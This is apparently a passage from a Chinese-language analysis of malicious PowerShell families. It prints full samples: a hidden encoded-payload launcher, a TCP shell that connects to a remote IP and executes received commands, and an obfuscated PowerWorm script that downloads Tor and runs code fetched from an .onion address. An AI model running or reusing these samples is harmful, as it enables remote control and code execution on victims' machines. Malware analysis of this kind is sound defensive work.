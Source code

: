 反弹型载荷：

```
if([IntPtr]::Size -eq 4){$b='powershell.exe'}else{$b=$env:windir+'syswow64WindowsPowerShellv1.0powershell.exe'};$s=New-Object System.Diagnostics.ProcessStartInfo;$s.FileName=$b;$s.Arguments='-nop -w hidden -c $s=New-Object IO.MemoryStream(,[Convert]::FromBase64String(''H4sIAFHL6FcCA71W6nlhxGUKAAA=''));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();';$s.UseShellExecute=$false;$s.RedirectStandardOutput=$true;$s.WindowStyle='Hidden';$s.CreateNoWindow=$true;$p=[System.Diagnostics.Process]::Start($s);
```

绑定型载荷使用System.Net.Sockets.TCPClient创建一个TCP listener侦听实例，将收到的PowerShell脚本传递给Invoke-Expression。

绑定型载荷：

```
$client = New-Object System.Net.Sockets.TCPClient("192.168.56.144",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..255|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2&amp;gt;&amp;amp;1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "&amp;gt; ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

**4.18 PowerWorm（19个样本，占比0.49%）**

PowerWorm是TrendMicro在2014年定义的一个恶意软件族群，具有通过感染Office文DOC（X）、XLS（X）文档进行传播的能力。此类PowerShell代码在真正的命令之间插入了垃圾数据进行混淆。

```
'xneZtEDC';$ErrorActionPreference = 'SilentlyContinue';'uqaaPxuaCN';'DOBHbJqlkRM';$kn = (get-wmiobject Win32_ComputerSystemProduct).UUID;'WVy';'gKEZgPRMl';if ((gp HKCU:\SoftwareMicrosoftWindowsCurrentVersionRun) -match $kn){;'mUzql';'jsvZDTQITNa';(Get-Process -id $pid).Kill();'NgpYRhj';'hVXjCtDvBc';};'tUVXQmXbZ';'lkTzhJZHwxU';'McPzodeY';'vNNYv';function e($dkez){;'TfPD';'WTw';$jt = (((iex "nslookup -querytype=txt $dkez 8.8.8.8") -match '"') -replace '"', '')[0].Trim();'HdCjwAD';'sVSjtZRvr';$ovg.DownloadFile($jt, $tg);'raVw';'OQNdBkS';$ei = $ke.NameSpace($tg).Items();'OgnucmQlK';'Qfqxov';$ke.NameSpace($sa).CopyHere($ei, 20);'GBMdJNr';'VMWS';rd $tg;'pnoFau';'SedloE';};'NxPZPIV';'ypi';'AFElBzCp';'bYRWML';'UYANxqtLg';'QBC';$sa = $env:APPDATA + '' + $kn;'Eaxyty';'IwuaOh';if (!(Test-Path $sa)){;'amYmrKg';'vWAgqtEB';$qr = New-Item -ItemType Directory -Force -Path $sa;'GqNII';'HNPIQutUpGv';$qr.Attributes = "Hidden", "System", "NotContentIndexed";'MuRuRa';'CmlkCszVCO';};'ZdmIGyj';'nAYhOpvWV';'BIAgIntvoU';'GJTBzyjr';$zul=$sa+ 'tor.exe';'swInqmX';'LTXwOFNSuL';$axs=$sa+ 'polipo.exe';'qkI';'WJPoaNnarn';$tg=$sa+''+$kn+'.zip';'Sgw';'fYthyZ';$ovg=New-Object System.Net.WebClient;'Ils';'GRldQfFnfQK';$ke=New-Object -C Shell.Application;'vVoutJQ';'gHXAsaxc';'llaetDv';'Zix';if (!(Test-Path $zul) -or !(Test-Path $axs)){;'QtJINrwhS';'XkAxtKLAJ';e 'i.vankin.de';'QqVujkSIPS';'dZdn';};'GoemQSlIB';'IOcJU';'FYTMzpCupR';'qEnstu';if (!(Test-Path $zul) -or !(Test-Path $axs)){;'ZGtSt';'mHkBgIOsU';e 'gg.ibiz.cc';'sDtXmE';'xSBk';};'YaiaAJqKPin';'gFVK';'TumvJVvJKRm';'ULQwp';$pj=$sa+'roaminglog';'numdmmhA';'ytEF';saps $zul -Ar " --Log `"notice file $pj`"" -wi Hidden;'JCBc';'CjHbOtf';do{sleep 1;$xxl=gc $pj}while(!($xxl -match 'Bootstrapped 100%: Done.'));'wYtpNVJtdz';'XggiQIPFt';saps $axs -a "socksParentProxy=localhost:9050" -wi Hidden;'dlV';'zVLSO';sleep 7;'FzlDdEynuUz';'Ci';$zpp=New-Object System.Net.WebProxy("localhost:8123");'MsOkmLs';'zRW';$zpp.useDefaultCredentials = $true;'PWXVXIMqb';'lAy';$ovg.proxy=$zpp;'gEkdkGPjVp';'xerooSjz';$ca='http://powerwormjqj42hu[.]onion/get.php?s=setup&amp;amp;mom=14C6EFBB-F19D-DC11-83A7-001B38A0DF85&amp;amp;uid=' + $kn;'SGCFq';'GkVVnp';while(!$qmh){$qmh=$ovg.downloadString($ca)};'rHo';'jtshvrR';if ($qmh -ne 'none'){;'Ju';'VuUTlp';iex $qmh;'blhE';'AeIepyNd';};'whSp';
```
